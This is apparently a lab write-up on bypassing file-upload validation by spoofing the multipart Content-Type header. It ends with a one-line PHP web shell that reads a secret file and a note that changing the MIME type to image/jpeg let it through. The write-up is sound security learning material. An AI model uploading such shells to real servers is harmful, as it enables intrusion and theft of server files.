


## Flawed file type validation

When submitting HTML forms, your browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name, address, and so on, but is not suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is the preferred approach.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this:

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

As you can see, the message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header, which provides some basic information about the input field it relates to. These individual parts may also contain their own `Content-Type` header, which tells the server the MIME type of the data that was submitted using this input.

One way that websites may attempt to validate file uploads is to check that this input-specific `Content-Type` header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like `image/jpeg` and `image/png`. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of the file actually match the supposed MIME type, this defense can be easily bypassed using tools like Burp Repeater.

## Challenge

> This website only filters the file on the basis of MIME type and we have to bypass it and find the flag which is in `/home/carlos/secret`

--> So i used the same payload as previous lab:

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After intercepting the upload request i changed the MIME type to `image/jpeg` and it worked!



--> After going to the image location i got the flag!


